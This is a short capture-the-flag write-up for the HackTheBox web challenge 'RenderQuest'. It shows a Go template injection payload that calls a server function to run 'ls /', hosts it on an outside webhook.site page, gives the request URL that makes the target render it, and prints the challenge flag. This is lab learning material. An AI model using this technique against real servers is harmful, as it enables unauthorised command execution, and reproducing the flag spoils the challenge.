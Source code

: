 ```yaml
---
layout: post
title: HTB{RenderQuest}
author: mr4ndr3w
tags: [write-up, hackthebox, challenge, web]
---
```

<!--cut-->

* TOC
{:toc}

Create webhook with content.
```text
{{.FetchServerInfo "ls /"}}
```

Get flag:

```text
http://209.97.140.29:30692/render?use_remote=true&page=https://webhook.site/362e5709-55f9-4601-9405-dbc508679808
HTB{qu35t_f0r_th3_f0rb1dd3n_t3mpl4t35!!}
```
